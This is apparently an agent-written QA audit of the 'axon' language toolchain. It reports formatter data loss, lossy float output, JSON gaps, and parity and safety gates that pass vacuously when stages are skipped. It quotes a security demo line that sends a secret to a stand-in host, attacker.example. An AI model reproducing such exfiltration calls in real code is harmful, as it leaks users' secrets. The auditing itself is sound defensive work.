*/home/cklaus/projects/axon/.github/workflows/ci.yml* · kind: `ci-blind-spot` · confidence: high

Following on from the red test above: the reason main can be red without anyone noticing is that this test is designed to no-op when the wasm toolchain is absent. From crates/axon-core/tests/cli_run.rs (~line 13655):

    let skipped = stdout.contains("skipping") || stderr.contains("skipping");
    if skipped {
        eprintln!("wasm toolchain absent — parity test skipped:\n{stdout}{stderr}");
        return;
    }

.github/workflows/ci.yml installs the toolchain with `dtolnay/rust-toolchain@stable` and `components: rustfmt, clippy` — no `targets:` line, so wasm32-wasip1 is never installed. The test therefore always takes the skip branch on GitHub and always reports green, while firing on any developer machine with a complete toolchain (as it does here).

The net effect is a wasm/native parity guarantee that CI can never enforce: it is green in the one place the project treats as authoritative and red in the places nobody gates on. This compounds the already-established finding that CI runs only 4 commands, all scoped -p axon-core, and never invokes scripts/gate.sh.

**Recommendation:** Add `targets: wasm32-wasip1` to the CI toolchain step so the test actually runs, or make the absent-toolchain path a hard failure in CI (e.g. gate the skip on an env var that CI does not set) so a silently-skipped parity guarantee cannot be mistaken for a passing one.

### Ecosystem gaps — writing a real program — 11 findings (2C/3H/4M/2L)
> **Verdict:** not-ready
>
> I set out to write the most ordinary program imaginable — read a JSON file, pull out a field, transform it, write the result. I got there, but only by hand-rolling a parser with str_index_of/str_slice, because the JSON API cannot read a number or a boolean out of a nested object. Along the way three shipped tools failed: `axon fmt` silently deletes `mod` declarations and turns a working multi-file program into one that no longer compiles; `axon lsp` and `axon parse` cannot be built at all (the documented `--features serde-json` recipe fails with a hard rustc error that has been latent ~5 weeks); and f64→string is `%.6g`, so writing 1234567.891 to a file yields 1.23457e+06 — a silent absolute error of 2.109 with no lossless alternative anywhere in the language. `axon test` is the one tool that is genuinely solid (432 tests pass across the corpus, modules honored). The gap is not the type system — that part is real and enforced. It is that the surrounding ecosystem cannot yet hold a mundane data-processing program without corrupting it. Notably, none of fmt, the modular example, or AXON_PATH is exercised by gate.sh or CI, which is why these survived.

#### [CRITICAL] `axon fmt` silently deletes `mod` declarations, breaking working multi-file programs in place
*crates/axon-core/src/fmt.rs:139* · kind: `tooling-data-loss` · confidence: high

The formatter never emits `Item::ModDecl`. In crates/axon-core/src/fmt.rs the header pass at line 77 collects only `Item::UseDecl`, and the body pass at line 139 no-ops both: `Item::UseDecl(_) | Item::ModDecl(_) => {}`. `ModDecl` therefore has no emit path anywhere and is dropped.

Reproduced end to end. Before (runs fine):
```
mod util
use util.{double}
fn main() { println("{to_str(double(21))}") }
```
`AXON_PATH=proj axon run proj/fmttest.ax` -> `42`

After `axon fmt proj/fmttest.ax` (writes in place, reports `formatted: proj/fmttest.ax`, exit 0):
```
use util::{double}

fn main() {
    println("{to_str(double(21))}")
}
```
`AXON_PATH=proj axon run proj/fmttest.ax` -> `{"code":"E0003","message":"module `util` not found"}`

I isolated which of the two edits is fatal by testing all four combinations. The `.`->`::` separator rewrite is harmless (both forms resolve to `42`). The breakage is entirely the dropped `mod`: with `mod` present both separators work; with `mod` absent both fail E0003.

Blast radius nuance: all 5 in-repo files declaring `mod` happen to contain comments, so the separate comment-refusal guard shields them today — the bug is latent in the repo but live for any user whose multi-file program is comment-free. `axon fmt` is never invoked by scripts/gate.sh or .github/workflows (grep for `axon fmt`/`fmt --check` returns nothing), and neither is the modular/AXON_PATH example, which is why this was never caught.

**Recommendation:** Add an `Item::ModDecl` emit arm in fmt.rs alongside `emit_use`. Until then, make the formatter refuse any file containing a `mod` declaration the same fail-closed way it refuses files with comments — writing in place and destroying code is far worse than declining. Add an `axon fmt --check` + round-trip-still-runs step over examples/modular to gate.sh.

#### [CRITICAL] f64 -> string is %.6g, silently corrupting numeric data on output with no lossless alternative
*crates/axon-core/src/interp/value.rs:4* · kind: `correctness-data-corruption` · confidence: high

`to_str`/`to_str_f64` format f64 with `%.6g` — six significant figures. crates/axon-core/src/interp/value.rs:4 documents this as deliberate: "`fmt_g` is the `%.6g` float formatter converged onto C's printf (R1f slice 2b)", i.e. chosen to preserve interp/native parity. Parity is preserved; both are lossy.

Measured round-trip (`parse_float_or(to_str(x))` vs `x`):
```
1/3        : "0.333333"    round-trips? false  diff=3.33333e-07
0.1+0.2    : "0.3"         round-trips? false  diff=5.55112e-17
1234567.891: "1.23457e+06" round-trips? false  diff=-2.109
pi15dp     : "3.14159"     round-trips? false  diff=2.65359e-06
1e-9       : "1e-09"       round-trips? true   diff=0
```
The 1234567.891 case is the damaging one: an absolute error of 2.109. This reaches the filesystem — `write_file("big.csv", "total={to_str(v)}\n")` with v=1234567.891 produces a file literally containing `total=1.23457e+06`.

There is no escape hatch. I enumerated every formatting-adjacent builtin; `format(template: str) -> str` only interpolates and takes no precision spec (`format("{to_str(1.0/3.0)}")` -> `0.333333`). `Decimal` IS exact (`decimal_from_str("1234567.891")` -> `decimal_to_str` -> `1234567.891`), but it is only constructible from a string, and JSON numbers cannot be extracted as strings (see the JSON finding), so the exact path is unreachable from JSON input.

**Recommendation:** Make the default f64 rendering shortest-round-trip (Rust's `{}` / Ryu, which C's printf `%.17g` also achieves), and re-converge native codegen on that instead of on `%.6g`. If %.6g must stay the default for display, add a lossless `to_str_f64_exact` (or a precision argument on `format`) so data pipelines have any correct option at all. Add a round-trip property test: `parse_float(to_str(x)) == x`.

#### [HIGH] JSON API cannot extract numbers or booleans from nested structures — the array-of-records shape is unreachable
*crates/axon-core/src/interp/builtins.rs:2126* · kind: `stdlib-gap` · confidence: high

Only 5 JSON builtins exist: json_parse, json_stringify, json_get_str, json_get_i64, json_path_str. Probed against a 3-record orders.json:
```
json_parse returns same string? true
orders.0.customer : OK   alice
orders.0.total    : ERR  json_path_str: leaf is not a string (found other type)
orders.0.paid     : ERR  json_path_str: leaf is not a string (found other type)
orders.0.id       : ERR  json_path_str: leaf is not a string (found other type)
get_str(orders)   : ERR  key "orders" is not a string (found other type)
get_i64(orders)   : ERR  key "orders" is not a number
orders.3.customer : ERR  json_path_str: array index 3 out of bounds (len 3)
```
Concretely: (a) `json_path_str` walks arbitrary paths but returns ONLY string leaves — there is no json_path_i64/f64/bool, so no nested number or boolean is reachable; (b) json_get_i64/json_get_str work only on a top-level object, and there is no json_get_f64 or json_get_bool at all; (c) there is no way to pull out a sub-object as raw JSON to re-feed into the getters, so you cannot decompose; (d) there is no array-length builtin — length is only observable by indexing until you get an Err that conflates out-of-bounds with type errors; (e) `json_parse` is a validator that returns its own input unchanged (confirmed: `str_eq(json_parse(raw), raw)` is true), so every field access re-parses the whole document — O(n) per access.

I checked the obvious escape hatch and it isn't one: `dict_try_from_str` is a bespoke line-based key=value format, not JSON — `dict_try_from_str("{\"a\": 1}")` -> `malformed line '{' (expected key=value)`.

The only way I completed the ETL was hand-rolling a parser with str_index_of/str_slice/str_split over the raw text. It works, but that is a defeat, not an ecosystem.

**Recommendation:** Ship a real JSON value type (or reuse Dict) with json_get_f64/bool, json_path_{i64,f64,bool}, json_array_len/json_array_get, and a json_get_raw that returns a sub-document. Make json_parse return an opaque parsed handle rather than the input string so repeated access is not O(n) each time.

#### [HIGH] `axon lsp` and `axon parse` cannot be built at all — the documented feature recipe fails to compile
*crates/axon-core/src/lsp.rs:583* · kind: `broken-promise` · confidence: high

CLAUDE.md advertises both in its top-line Commands block and marks Phase 4 (LSP, formatter, ...) "✅ Complete". On the default and fast builds both refuse at runtime:
```
$ axon lsp   -> error: `axon lsp` requires building axon with the `serde-json` feature.   (exit 1)
$ axon parse -> error: `axon parse` (JSON AST output) requires building axon with the `serde-json` feature.
```
The documented recipe does not compile. `cargo build -p axon-core --no-default-features --features serde-json --bin axon` exits 101:
```
error[E0004]: non-exhaustive patterns: `&types::Type::Decimal`, `&types::Type::RawPtr(_)` and `&types::Type::Never` not covered
   --> crates/axon-core/src/lsp.rs:583:11
```
The codegen+serde-json combination fails identically. Worth noting the stated reason in CLAUDE.md is now stale: it warns that combo "reintroduces the stall" and "the native build never finishes", but it does not hang — it fails fast with this hard rustc error.

Git dates give the age: types.rs last touched a4f79b1 2026-06-26 ("feat(decimal): wire Decimal through the pipeline"), lsp.rs last touched c2562d2 2026-06-23. So the LSP has been unbuildable for roughly five weeks, undetected because no CI job or gate.sh stage ever builds that feature.

**Recommendation:** Add the three missing match arms at lsp.rs:583 and add `cargo check -p axon-core --no-default-features --features serde-json` to CI so the serde-json path can never rot silently again. Until it builds, drop the LSP claim from the Phase 4 status row and the `axon parse`/`axon lsp` lines from the CLAUDE.md/README command list.

#### [HIGH] `axon fmt` refuses 155 of the project's own 170 example files because they contain comments
*crates/axon-core/src/fmt.rs* · kind: `tooling-gap` · confidence: high

The formatter is AST-based and fail-closes rather than deleting comments:
```
error: examples/hello.ax: refusing to format — the file contains comments, which the AST-based formatter would delete. (Comment-preserving formatting is not yet implemented; the file is unchanged.)
```
Census over every .ax file in examples/ (170 files):
```
clean=11  would-reformat=4  REFUSED-comments=155  other-error=0
```
So 91% of the project's own corpus cannot be formatted, and only 15 files are formattable at all. Refusing is the right call versus destroying comments, but it means the shipped formatter is unusable on real source — essentially all real code has comments.

On the 15 files it does accept, formatting is at least stable: I ran fmt twice over each and got 0 non-idempotent results. Exit codes are also correct (verified without pipe masking): 0 clean, 1 would-reformat, 2 refused.

**Recommendation:** Either implement comment preservation (attach trivia to AST nodes) or hold `axon fmt` back from the release surface. A formatter that declines 91% of your own examples will read to users as "the toolchain does not work" regardless of the sound reasoning behind the refusal.

#### [MEDIUM] No sibling-file module resolution and no package manager — a two-file project needs an env var
*crates/axon-core/src/lib.rs:426* · kind: `module-story` · confidence: high

`axon_search_dirs` (crates/axon-core/src/lib.rs:426) searches, in order: AXON_PATH entries, ~/.axon/lib/, and <bindir>/../lib/axon/. The directory of the importing file is NOT searched. So the most natural project layout fails out of the box:
```
$ axon run proj/main.ax          # main.ax and util.ax are siblings in proj/
[E0901] module `util` not found
  searched:
    /root/.axon/lib/util.ax (not found)
    /home/cklaus/projects/axon/target/debug/../lib/axon/util.ax (not found)
  hint: AXON_PATH is unset — set it to the directory containing `util.ax`
$ AXON_PATH=proj axon run proj/main.ax
42
```
The diagnostic is genuinely excellent — it lists what it searched and tells you the fix. But requiring an environment variable to import the file next to you is a friction point no mainstream language has.

There is also no dependency story: no axon.toml or any manifest exists anywhere in the repo. `axon lock` writes an axon.lock pinning each AXON_PATH-resolved module by SHA-256, and `verify-lock` re-checks it — so there is a lockfile with no manifest, no version resolution, no fetching, and no registry. Nothing can be shared or depended upon.

**Recommendation:** Prepend the importing file's own directory (then the project root) to the search path — that alone makes single-directory projects work with zero configuration. Separately, decide whether v1 ships a manifest+resolver or explicitly scopes to single-project use; shipping a lockfile with no package manager invites the wrong expectation.

#### [MEDIUM] `axon run` strips file/line/column from every diagnostic; `axon check` on the same file has them
*crates/axon-core/src/main.rs* · kind: `dx` · confidence: high

CLAUDE.md states "Execution is interpreter-first", making `run` the primary developer verb — but it produces the worst errors in the toolchain. Same file, two commands:
```
$ axon run perr.ax
error: parse error: unexpected token: Eq, expected expression

$ axon check perr.ax
{"code":"E0000","file":"...perr.ax","line":4,"col":11,"message":"unexpected token: Eq, expected expression"}
```
Same for type errors:
```
$ axon run terr.ax
{"code":"E0102","message":"type mismatch in let type annotation (expected str), found i64"}

$ axon check terr.ax
{"code":"E0102","file":"...terr.ax","line":3,"col":3,"message":"...","expected":"str","found":"i64"}
```
The span information demonstrably exists and is correct — `run` just discards it. I hit this repeatedly while writing the ETL program; in a 30-line file with three errors you are hunting blind.

**Recommendation:** Route `axon run`'s diagnostic emission through the same formatter `axon check` uses. This looks like a small plumbing fix with an outsized effect on first-hour developer experience.

#### [MEDIUM] No regex, no date/time library, and HTTP is unavailable in the default build
*crates/axon-core/src/builtins.rs* · kind: `stdlib-gap` · confidence: high

Inventory of all 293 entries in the BUILTINS table:
- Regex: zero. No regex, match, or pattern builtins of any kind.
- Date/time: `now_ms()` (epoch millis), `temporal_now()`, `sleep_ms`. That is all. No date parsing, no formatting, no date arithmetic, no timezones, no calendar type. You cannot turn 1785505383077 into a date string.
- HTTP: http_get/http_post/http_sse/http_sse_post exist but are not in the default build. `asi-runtime` is not in `default = ["codegen"]`, so the binary produced by the documented build command returns a runtime error: `ERR: http_get requires the asi-runtime feature or a network-capable host`.

Strings, arrays and dicts are genuinely broad by contrast (~40 str_*, ~40 arr_*, ~20 dict_* builtins, including map/filter/fold/group_by/partition) — the gap is specifically in the four areas that a data-processing or service program needs most.

**Recommendation:** For a public release, regex and date/time are table stakes for the "small realistic program" use case; prioritize those two. Either build HTTP into the default binary or make the default-build limitation explicit in the README, since a user following the documented build gets an `http_get` that always fails.

#### [MEDIUM] Two shipped flagship demo files have plain compile errors
*examples/flagship/cve/CVE-2024-34359/model_loader_ssti.ax:30* · kind: `broken-example` · confidence: high

Running `axon test` over all 170 examples: 152 files ran, 432 tests passed, 0 failed, 18 hard errors. Most of the 18 are intentional (E1001 capability refusals — that IS the flagship demo — and E0901 module-not-found without AXON_PATH). Two are genuine breakage:

1. `examples/flagship/cve/CVE-2024-34359/model_loader_ssti.ax:30` — `E0305: function http_get takes 2 arguments but 1 was supplied`. The call is `http_get("http://attacker.example/collect?d={_secret}")`. To its credit the demo's actual security claim still holds — all three intended E1001 refusals (exec, read_file, http_get) do fire — but the file also carries an unrelated stale arity bug.
2. `examples/flagship/agent_task_llm_generated.ax:22` — `E0102: type mismatch in arg 1 of exec (expected [str], found str)`, from `exec("curl", "-X POST ...")`.

CLAUDE.md positions these as "the public face". A reviewer who opens the flagship security demo and sees an arity error will discount the security claim next to it.

**Recommendation:** Fix both call sites and add a gate.sh stage asserting that every examples/flagship/**.ax file produces exactly its expected diagnostic set — so an intentional E1001 demo cannot silently acquire an unintentional E0305 alongside it.

#### [LOW] `axon doc` produces nothing for the entire shipped corpus — 0 of 170 files use `///`
*examples/stdlib/risk.ax* · kind: `docs` · confidence: high

The tool itself works. Given a doc comment it produces correct Markdown:
```
## fn double(n: i64) -> i64

Double a number.
```
But `grep -rl '^\s*///' examples --include=*.ax` returns 0 of 170 files. Running doc over the whole corpus at once yields a file with zero item headings, and per-file output is `*No documented items.*` — including for substantial modules like examples/stdlib/risk.ax (397 lines, 13 tests). The corpus documents itself exclusively with `//` comments, which doc ignores.

Also minor: `axon doc` does not follow `use` imports, so there is no way to generate docs for a project as a unit — only per-file, by listing every file.

**Recommendation:** Convert `//` header comments to `///` on the stdlib modules in examples/stdlib/ so `axon doc` has something to show. Shipping a documentation generator with zero documented items in your own corpus undercuts the feature.

#### [LOW] Early `return` inside a match arm is a type error, forcing awkward restructuring of ordinary error handling
*crates/axon-core/src/infer.rs* · kind: `language-ergonomics` · confidence: high

The first, most natural shape I reached for when writing the ETL failed:
```
let raw = match read_file("orders.json") {
    Ok(s) => s
    Err(e) => { println("read failed: {e}") return }
}
```
```
[E0102] type mismatch in match arm type (expected str), found ()
```
The arm diverges rather than producing a value, so it should unify with anything, but it is typed as `()` and rejected. Note `types::Type::Never` exists in types.rs (it is one of the variants the LSP match is missing), so the machinery for a bottom type is partly present. Workarounds are fine once known — hoist into a helper using `?`, or supply a dummy value — but this is the single most common Rust-shaped idiom a new user will type on their first program.

**Recommendation:** Type diverging expressions (`return`, and panic-like calls) as `Never` and let it unify with any expected type in match-arm and if-branch position.

---
## Pass 6 — QA-expert review (run `wf_fd75a2a7`, 3 agents, high effort)
Lens: *do the gates actually gate?* Focus on vacuous/flaky harnesses, coverage of claimed-complete safety behaviors, and the exit-code contract.

### Vacuous + flaky gates — 12 findings (0C/5H/5M/2L)
> **Verdict:** Poor. The individual parity harnesses are well-written, but every aggregation layer above them is unfloored: parity_all.sh prints "PASS — no divergence ✓" on 0 passes (proven), the default gate's 26 parity wrappers all skip structurally (proven), axon_safety_gate.sh prints "safe to deploy" with 6/8 stages skipped (proven), and the R22–R39 acceptance gates — the documented definitions of "done" — are grep-for-identifier checks that nothing ever runs.
>
> Ran the full parity suite (43 pass / 5 skip / 1 fail), re-ran the failing harness in both env states, ran the suite against a deliberately no-op `axon` stub in a scratch mirror, ran the safety gate with its documented skip flags, ran the R27 gate end-to-end, and reproduced four zero-test/zero-case pass paths with the gates' own verbatim logic. Every finding below is backed by pasted output, not by reading.

#### [HIGH] parity_all.sh — the I-2 two-engine gate — reports PASS with zero harnesses actually passing
*scripts/parity_all.sh* · kind: `vacuous-aggregator` · confidence: high

scripts/parity_all.sh:86-92 summarises as `$pass passed, $skip skipped, $fail failed` and then decides purely on `$fail`. There is no floor on `$pass`. Since both PASS and SKIP exit 0 and SKIP is detected from the harness's own last output line, a suite in which *every* harness skipped is indistinguishable from a green run.

PROVEN. I copied parity_all.sh plus 27 of the harnesses into a scratch dir with a `#!/bin/sh\nexit 0` stub as target/debug/axon:

```
  SKIP  agent_action_parity            (toolchain absent)
  SKIP  arr_panic_msg_parity           (toolchain absent)
  ... 25 more ...
  SKIP  to_str_parity                  (toolchain absent)

parity_all: 0 passed, 27 skipped, 0 failed (of 27 harnesses)
parity_all: PASS — no interp↔codegen / AOT-wasm divergence ✓
PARITY_ALL_EXIT=0
```

How easily this triggers: I ran the *whole real suite* against that no-op stub compiler. 41 of 49 harnesses reported SKIP rather than FAIL — they treat 'the axon binary cannot emit native builds' as a toolchain-absence skip, which is exactly what a broken compiler looks like. Only 8 caught it. If those 8 had also been in the skip class (e.g. no wasm32 target, no LLVM, a build-lock collision — all conditions the harnesses explicitly skip on), the suite would have gone green against a compiler that does nothing.

This is the mechanism gate.sh:129-130 relies on for invariant I-2, described in-file as the thing whose absence is 'exactly how the silent-divergence bugs (#27/#36/#38/#39/parse_*_or) reached main'.

**Recommendation:** Add a floor to parity_all.sh: fail if `$pass` is below a committed expected count (e.g. `EXPECT_MIN_PASS=40`), and fail if any *named* harness in a required list lands in the SKIP bucket unless its skip reason is on an allowlist. Separately, make the harnesses distinguish 'LLVM/wasmtime absent' from 'the axon binary cannot emit native builds' — decimal_parity.sh:65-74 already does this correctly (it checks for llvm-config before allowing the skip) and is the pattern to copy.

#### [HIGH] gate.sh --strict is RED right now, and the cause is an env-dependent corpus filter that has drifted
*scripts/wasm_parity.sh* · kind: `flaky-and-vacuous-filter` · confidence: high

The full suite fails on this branch today:

```
parity_all: 43 passed, 5 skipped, 1 failed (of 49 harnesses)
parity_all: FAILED — wasm_parity
```

wasm_parity.sh auto-discovers its 'pure-compute' corpus with a hand-maintained regex (scripts/wasm_parity.sh:43):

    HOST_BUILTINS='read_file|write_file|read_line|ai_complete|ai_extract|exec|spawn|chan_|random_|now_ms|temporal_now|goal_run|agent_detect|agent_uncertainty|agent_trace'

It omits `http_get`, `http_post`, `http_sse_post` and `env_var`. Four examples therefore get classified as pure compute: anthropic_stream.ax, trainloop_stream.ax, http_get.ax, http_sse.ax.

anthropic_stream.ax:14 does `match env_var("ANTHROPIC_API_KEY")`. wasmtime does not inherit the host environment; the native leg does. So the harness's verdict is a function of the developer's shell:

```
$ bash scripts/wasm_parity.sh
  DIFF anthropic_stream.ax native=(code 1) wasm=(code 1)
    native stdout: stream error: http_sse_post requires the asi-runtime feature or a network-capable host
    wasm   stdout: error: ANTHROPIC_API_KEY environment variable not set
wasm_parity: 34 passed, 1 differ
EXIT=1

$ env -u ANTHROPIC_API_KEY bash scripts/wasm_parity.sh
wasm_parity: 35 passed, 0 differ
wasm_parity: native and wasm interpreters agree on the pure-compute corpus ✓
EXIT=0
```

Both halves of the problem are bad. With the key set, gate.sh --strict is unconditionally red on any dev box — and since CI never runs gate.sh, nobody sees it either way. With the key unset it passes vacuously: http_get.ax, http_sse.ax and trainloop_stream.ax are all counted `OK (exit 1)` — they 'agree' only because both engines bail at the same unsupported-builtin guard, so the harness's 35/35 includes 4 rows of zero coverage.

**Recommendation:** Add http_get|http_post|http_sse|env_var to HOST_BUILTINS (and better: derive the exclusion list from builtins.rs effect rows instead of hand-maintaining a regex, so it cannot drift again). Separately, reject corpus entries whose *both* legs exit non-zero — identical failure is not parity evidence.

#### [HIGH] The default (non-strict) gate has ZERO parity coverage — 26 cargo tests report ok while asserting nothing
*crates/axon-core/tests/cli_run.rs* · kind: `structurally-guaranteed-skip` · confidence: high

gate.sh calls itself 'the single, atomic build gate ... Every code change (mine or a subagent's) must pass THIS exact gate before it is committed'. Without --strict it runs no parity harness directly; the only parity coverage is the 44 tests in crates/axon-core/tests/cli_run.rs that shell out to scripts/*_parity.sh. Every one of them skips.

I ran the exact command gate.sh:62 runs. Targeted subset first:

```
$ cargo test -p axon-core --no-default-features --test cli_run parity -- --nocapture
running 4 tests
Android NDK/emulator unavailable — compute parity skipped:
test android_compute_parity_r14 ... ok
codegen unavailable — fuzz parity skipped:
fuzz_parity: this axon binary cannot emit native builds (no codegen feature) — skipping
test codegen_fuzz_parity_finds_no_divergence ... ok
codegen toolchain unavailable — native gfx parity skipped:
test mock_native_module_interp_codegen_parity ... ok
codegen unavailable — handler-resume parity skipped:
test codegen_handler_tail_resume_lowers_via_parity_harness ... ok
test result: ok. 4 passed; 0 failed
```

Then the full cli_run target — 26 distinct harnesses skipped, all green:

```
codegen unavailable — agent action parity skipped:
codegen unavailable — all-examples parity skipped:
codegen unavailable — arr panic message parity skipped:
codegen unavailable — assert message parity skipped:
codegen unavailable — exec parity skipped:
codegen unavailable — exit-code parity skipped:
codegen unavailable — fuzz parity skipped:
codegen unavailable — goal unknown-name parity skipped:
codegen unavailable — handler-resume parity skipped:
codegen unavailable — i64_radix panic parity skipped:
codegen unavailable — parse_float_bool parity skipped:
codegen unavailable — parse_int err parity skipped:
codegen unavailable — parse_int_radix parity skipped:
codegen unavailable — provenance parity test skipped:
codegen unavailable — random_i64 parity skipped:
codegen unavailable — str utf8 parity skipped:
codegen unavailable — str_count parity skipped:
codegen unavailable — to_str parity skipped:
codegen/unix unavailable — recursion-guard parity skipped:
codegen/wasm unavailable — AOT env parity skipped:
codegen/wasm unavailable — str ABI parity skipped:
codegen toolchain unavailable — native gfx parity skipped:
codegen unavailable — F11 input parity skipped:
native build unavailable (codegen feature or axon-rt link) — guard test skipped:
Android NDK unavailable — lifecycle adapter skipped:
Android NDK/emulator unavailable — compute parity skipped:
```

This is structural, not incidental: the test binary is built --no-default-features, so cargo installs the codegen-less axon at target/debug/axon for the duration, and the harnesses' nested `cargo build -p axon-core --bin axon` cannot recover because the parent cargo holds the package lock. all_examples_parity.sh:20-24 documents this exact situation as a reason to skip. So these 26 tests can never do anything under the gate that is supposed to run them.

**Recommendation:** Either move all parity coverage out of the interp-only test target (delete these 26 wrappers and rely on parity_all.sh, promoted from --strict into the standard gate), or have the wrappers resolve a codegen binary at a separate path (e.g. target/parity/axon built once by the gate before the test stage) so the build-lock/feature collision cannot silence them. As written they are pure ceremony.

#### [HIGH] Skip-detection runs before the exit-status assertion, so a failing harness is reported green
*crates/axon-core/tests/cli_run.rs* · kind: `skip-masks-failure` · confidence: high

All 44 harness wrappers in cli_run.rs use this order (first at cli_run.rs:43, and 43 more):

    if stdout.contains("skipping") || stderr.contains("skipping") {
        eprintln!("... skipped:\n{stdout}{stderr}");
        return;
    }
    assert!(out.status.success(), "...divergence:\n{stdout}{stderr}");

Any harness whose output contains the substring 'skipping' anywhere is returned green *before* its exit code is ever examined. I caught this firing live during the full cli_run run:

```
random_i64_parity: FAIL — hi==lo should return lo (program exit 0), got exit random_i64_parity: native build of /tmp/tmp.qJh9Vbryj5/eq.ax failed — skipping
```

That is a FAIL line and a 'skipping' line in the same output; the test reported ok.

The underlying harness bug is worth fixing on its own. scripts/random_i64_parity.sh:26-34:

    build_run() { # <src-file> <out-bin>  → prints "exit=<code>"
      if ! "$AXON" build "$1" -o "$2" --no-cache >/dev/null 2>&1; then
        echo "random_i64_parity: native build of $1 failed — skipping"
        exit 0
      fi
      "$2" >/dev/null 2>&1
      echo "$?"
    }

It is always called as `eq_code="$(build_run ...)"`, i.e. inside a command substitution — a subshell. The `exit 0` exits the subshell, not the script; the skip message becomes the *value* of `$eq_code`; the next check (`[ "$eq_code" != "0" ]`) then emits a bogus FAIL and `exit 1`. So the harness's intended clean-skip path is broken in a way that produces a false FAIL, which the wrapper's skip-first ordering then swallows. I scanned all harnesses for this subshell-exit pattern; random_i64_parity.sh:build_run is the only instance.

**Recommendation:** Reverse the order in the wrappers: assert `out.status.success()` first, and only then treat a 'skipping' marker as a skip — a harness that exits non-zero is a failure regardless of what it printed. Better, match on the harness's final line (parity_all.sh:68 already does this correctly) rather than substring-scanning the whole output. In random_i64_parity.sh, have build_run print a sentinel (e.g. `SKIP`) and let the caller decide, instead of `exit` inside `$( )`.

#### [HIGH] axon_safety_gate.sh prints "safe to deploy" with 6 of 8 stages skipped — and its own self-test asserts that this is correct
*scripts/axon_safety_gate.sh* · kind: `skip-equals-pass` · confidence: high

Every stage of the unified ASI deployment safety gate is disabled by an env var, and skip_stage (scripts/axon_safety_gate.sh:169-178) records `"ok":true,"skipped":true`, which the final verdict at :306-308 cannot distinguish from a pass:

```
$ SKIP_BUILD=1 SKIP_UNIT_TESTS=1 SKIP_R26=1 SKIP_R27=1 SKIP_R28=1 SKIP_R29=1 bash scripts/axon_safety_gate.sh
        { "stage": 3, "name": "R26_ATTESTATION",  "ok": true, "skipped": true, "reason": "SKIP_R26 set" },
        { "stage": 4, "name": "R27_CORRIGIBILITY", "ok": true, "skipped": true, "reason": "SKIP_R27 set" },
        { "stage": 5, "name": "R28_AUDIT_LEDGER",  "ok": true, "skipped": true, "reason": "SKIP_R28 set" },
        { "stage": 6, "name": "R29_COMPLIANCE",    "ok": true, "skipped": true, "reason": "SKIP_R29 set" },

✓ ALL STAGES PASSED — safe to deploy
GATE_EXIT=0
```

The gate's own acceptance criterion codifies this. axon_safety_gate.sh:101-110:

    # acc_a6: exit 0 on all-pass
    if JSON_OUT=/dev/null SKIP_BUILD=1 bash "$0" --skip-build > /dev/null 2>&1; then
        echo "acc_a6 PASS"

acc_a6 passes precisely because a gate with a skipped stage still exits 0. The vacuous pass is not an oversight here, it is a tested requirement.

Second, weaker hole: stages 3-6 also auto-skip with ok:true when the sub-gate script is merely *absent* (:246-248, :257-259, :268-270, :279-281) — `rm scripts/r26_acceptance_gate.sh` makes the attestation stage pass.

**Recommendation:** Make SKIP_* produce `"ok":null,"skipped":true` and have the final verdict be `all stages ok AND no stage skipped` — a skipped stage should downgrade the verdict to 'INCOMPLETE — not evaluated', never 'safe to deploy'. Turn the missing-sub-gate-script branches into hard failures. Rewrite acc_a6 to assert a fully-executed run exits 0, not a fully-skipped one.

#### [MEDIUM] Four gates (including gate.sh --strict itself) use name-filtered `cargo test`, which exits 0 on zero matching tests
*scripts/gate.sh* · kind: `zero-test-filter` · confidence: high

`cargo test <filter>` exits 0 and prints `test result: ok. 0 passed` when the filter matches nothing. Four gates take that as a pass.

gate.sh:120-121 — the R1d Slice-3 'drift kill-gate', added specifically because the drift tests were being 'compiled out (0 run)' and 'a BUILTIN_EXTERNS/STR_OUT_EXTERNS table-drift regression passed both gates green'. The fix reintroduces the same 0-run failure mode by a different route:

```
$ cargo test -p axon-core --lib codegen::builtin_externs_renamed
test result: ok. 0 passed; 0 failed; 0 ignored; 0 measured; 576 filtered out
CARGO_EXIT=0
```

Rename or move `mod drift_tests` (currently builtin_externs.rs:661) and the kill-gate goes silently green. gate.sh:143 (`--lib smt`) has the same shape.

r34_acceptance_gate.sh:65-70 — verdict is `grep -q "test result: ok"` on the log:

```
$ cargo test -p axon-vm --no-default-features --quiet renamed_chain:: | tee /tmp/r34.log | tail -3
test result: ok. 0 passed; 0 failed; 0 ignored; 0 measured; 62 filtered out
GATE SAYS: pass — cargo test -p axon-vm chain:: — all chain tests pass
```

r29_acceptance_gate.sh:155-160 — same, and it even prints the zero:

```
PASS: cargo test: r29 tests passed (0 tests)
```

Three sibling scripts get this right and are the fix template: modbus_roundtrip.sh:28, fhir_roundtrip.sh:27 and fix_codec.sh:23 all use `grep -qE 'test result: ok\. [1-9]'`.

**Recommendation:** Replace every `grep -q "test result: ok"` with `grep -qE 'test result: ok\. [1-9]'`, and for gate.sh's two filtered `cargo test` stages parse the passed-count and require it to meet a committed minimum (5 for the drift tests, 18 for smt per the CLAUDE.md counts). A filter that matches nothing must be a hard failure, not a pass.

#### [MEDIUM] r27_acceptance_gate.sh contains an unconditional hardcoded PASS and derives its test verdict from log text with `|| true`
*scripts/r27_acceptance_gate.sh* · kind: `hardcoded-pass` · confidence: high

Two problems in the R27 corrigibility gate, which I ran end-to-end (19 passed / 0 failed, exit 0).

1. scripts/r27_acceptance_gate.sh:83 is a bare, unconditional pass — no command, no comparison, no file check:

    # ── §-Gate step 4: reproducibility (A5) ──────────────
    ok "reproducibility: covered by acc_a5_deterministic_byte_identical in cargo test"

It asserts that another test covers the property without checking that that test ran or passed. This is a bash-side `assert!(true)` — precisely the stub that the sibling acceptance_gate.sh:45-49 anti-stub check exists to forbid, except that check only greps Rust sources so it cannot see this. And the test it defers to (acceptance.rs:270) is one of the silent-early-return tests in the next finding.

2. r27_acceptance_gate.sh:72-78 pipes cargo through tee with `|| true`, then decides by grepping for a FAILED line:

    cargo test -p axon-os 2>&1 | tee /tmp/axon-os-test.log || true
    if grep -q "^test result: FAILED" /tmp/axon-os-test.log; then
      fail "cargo test -p axon-os ..."
    else
      R27_COUNT=$(grep -c "^test result:" /tmp/axon-os-test.log || true)
      ok "cargo test -p axon-os ($R27_COUNT test suites passed)"

A crate that does not compile emits no `test result:` line at all, so the FAILED grep misses and the gate passes. Reproduced with the gate's verbatim logic against a compile-error log:

```
$ cat fake-os-test.log
error[E0425]: cannot find value `latch` in this scope
error: could not compile `axon-os` (test "acceptance") due to 1 previous error
$ bash demo_r27.sh
PASS: cargo test -p axon-os (0 test suites passed)
```

The `|| true` also discards cargo's real exit code, which was the one reliable signal available.

